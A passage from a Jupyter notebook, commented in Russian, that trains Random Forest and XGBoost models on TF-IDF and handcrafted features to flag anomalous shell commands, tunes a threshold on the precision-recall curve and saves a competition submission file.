print(f"Целевая переменная - доля аномалий в train: {y_train.mean():.2%}")
print(f"Целевая переменная - доля аномалий в val: {y_val.mean():.2%}")

# TF-IDF векторизация текста
tfidf = TfidfVectorizer(
    max_features=3000,
    ngram_range=(1, 3),
    analyzer='char_wb',  # character-based с учетом слов
    min_df=2,
    max_df=0.8,
    sublinear_tf=True
)

print("\nОбучаем TF-IDF...")
X_train_tfidf = tfidf.fit_transform(X_train_text.fillna(''))
X_val_tfidf = tfidf.transform(X_val_text.fillna(''))
X_test_tfidf = tfidf.transform(test_df['shell'].fillna(''))

print(f"TF-IDF признаки - train: {X_train_tfidf.shape}")

# Комбинируем с извлеченными признаками
X_train_combined = hstack([X_train_tfidf, csr_matrix(X_train_feat)])
X_val_combined = hstack([X_val_tfidf, csr_matrix(X_val_feat)])
X_test_combined = hstack([X_test_tfidf, csr_matrix(X_test_features)])

print(f"Комбинированные признаки - train: {X_train_combined.shape}")

Размер обучающей выборки: 8760
Размер валидационной выборки: 2190
Целевая переменная - доля аномалий в train: 6.19%
Целевая переменная - доля аномалий в val: 6.21%

Обучаем TF-IDF...
TF-IDF признаки - train: (8760, 3000)
Комбинированные признаки - train: (8760, 3069)


In [25]:
from sklearn.ensemble import RandomForestClassifier
from sklearn.metrics import f1_score, classification_report

# Обучаем Random Forest как базовую модель
print("Обучаем Random Forest...")
rf_model = RandomForestClassifier(
    n_estimators=100,
    max_depth=10,
    min_samples_split=5,
    min_samples_leaf=2,
    class_weight='balanced',  # важно для несбалансированных классов
    random_state=42,
    n_jobs=-1
)

rf_model.fit(X_train_combined, y_train)

# Предсказания
y_pred_rf = rf_model.predict(X_val_combined)
y_pred_proba_rf = rf_model.predict_proba(X_val_combined)[:, 1]

# Оценка
f1_rf = f1_score(y_val, y_pred_rf)
print(f"F1 Score на валидации: {f1_rf:.4f}")
print("\nОтчет по классификации:")
print(classification_report(y_val, y_pred_rf, target_names=['Legit', 'Anomaly']))

# Посмотрим на важность признаков
feature_names = tfidf.get_feature_names_out().tolist() + X_train_features.columns.tolist()
importance_df = pd.DataFrame({
    'feature': feature_names,
    'importance': rf_model.feature_importances_
}).sort_values('importance', ascending=False).head(20)

print("\nТоп-20 самых важных признаков:")
print(importance_df)

Обучаем Random Forest...
F1 Score на валидации: 0.5900

Отчет по классификации:
              precision    recall  f1-score   support

       Legit       1.00      0.91      0.95      2054
     Anomaly       0.42      1.00      0.59       136

    accuracy                           0.91      2190
   macro avg       0.71      0.95      0.77      2190
weighted avg       0.96      0.91      0.93      2190


Топ-20 самых важных признаков:
                    feature  importance
3064           letter_ratio    0.085190
3003        avg_word_length    0.079981
2510                      s    0.057232
3002             word_count    0.052039
3000                 length    0.048338
3001               is_empty    0.032115
1352                      c    0.027095
169                       l    0.020060
1968                      l    0.017981
2029                     ls    0.017454
567                       .    0.013447
2217                    ock    0.013192
1109                      ;    0.012786
1

In [26]:
import xgboost as xgb

# XGBoost с учетом дисбаланса классов
scale_pos_weight = len(y_train[y_train==0]) / len(y_train[y_train==1])

xgb_model = xgb.XGBClassifier(
    n_estimators=200,
    max_depth=5,
    learning_rate=0.1,
    scale_pos_weight=scale_pos_weight,
    subsample=0.8,
    colsample_bytree=0.8,
    random_state=42,
    use_label_encoder=False,
    eval_metric='logloss'
)

print("Обучаем XGBoost...")
xgb_model.fit(X_train_combined, y_train)

y_pred_xgb = xgb_model.predict(X_val_combined)
y_pred_proba_xgb = xgb_model.predict_proba(X_val_combined)[:, 1]

f1_xgb = f1_score(y_val, y_pred_xgb)
print(f"XGBoost F1 Score на валидации: {f1_xgb:.4f}")
print(classification_report(y_val, y_pred_xgb, target_names=['Legit', 'Anomaly']))

Обучаем XGBoost...
XGBoost F1 Score на валидации: 0.5900
              precision    recall  f1-score   support

       Legit       1.00      0.91      0.95      2054
     Anomaly       0.42      1.00      0.59       136

    accuracy                           0.91      2190
   macro avg       0.71      0.95      0.77      2190
weighted avg       0.96      0.91      0.93      2190



Оптимальный порог: 0.8808
F1 при оптимальном пороге: 0.5900
F1 после оптимизации порога: 0.5900




In [27]:
from sklearn.metrics import precision_recall_curve
import matplotlib.pyplot as plt

# Находим оптимальный порог для максимизации F1
precisions, recalls, thresholds = precision_recall_curve(y_val, y_pred_proba_xgb)
f1_scores = 2 * (precisions[:-1] * recalls[:-1]) / (precisions[:-1] + recalls[:-1] + 1e-10)

optimal_idx = np.argmax(f1_scores)
optimal_threshold = thresholds[optimal_idx]
optimal_f1 = f1_scores[optimal_idx]

print(f"Оптимальный порог: {optimal_threshold:.4f}")
print(f"F1 при оптимальном пороге: {optimal_f1:.4f}")

# Применяем оптимальный порог
y_pred_optimized = (y_pred_proba_xgb >= optimal_threshold).astype(int)
f1_optimized = f1_score(y_val, y_pred_optimized)
print(f"F1 после оптимизации порога: {f1_optimized:.4f}")

# Визуализируем PR-кривую
plt.figure(figsize=(8, 6))
plt.plot(recalls, precisions, marker='.')
plt.xlabel('Recall')
plt.ylabel('Precision')
plt.title('Precision-Recall Curve')
plt.grid(True)
plt.axvline(x=recalls[optimal_idx], color='r', linestyle='--', alpha=0.5)
plt.axhline(y=precisions[optimal_idx], color='r', linestyle='--', alpha=0.5)
plt.scatter([recalls[optimal_idx]], [precisions[optimal_idx]], c='r', s=100)
plt.show()

In [28]:
# Предсказания для тестовых данных с оптимальным порогом
test_probs = xgb_model.predict_proba(X_test_combined)[:, 1]
test_predictions = (test_probs >= optimal_threshold).astype(int)

# Проверяем распределение
print("Распределение предсказаний на тесте:")
print(pd.Series(test_predictions).value_counts())
print(f"Доля аномалий: {test_predictions.mean():.2%}")

# Создаем сабмит
submission = pd.DataFrame({
    'ID': test_df['ID'],
    'label': test_predictions
})

print("\nПервые строки сабмита:")
print(submission.head())

# Сохраняем
submission.to_csv('submission.csv', index=False)
print("\nФайл submission.csv сохранен!")

# Сохраняем также с вероятностями для анализа
submission_probs = pd.DataFrame({
    'ID': test_df['ID'],
    'label': test_predictions,
    'probability': test_probs
})
submission_probs.to_csv('submission_with_probs.csv', index=False)

Распределение предсказаний на тесте:
0    8469
1     185
Name: count, dtype: int64
Доля аномалий: 2.14%

Первые строки сабмита:
   ID  label
0   0      0
1   1      0
2   2      0
3   3      0
4   4      0

Файл submission.csv сохранен!
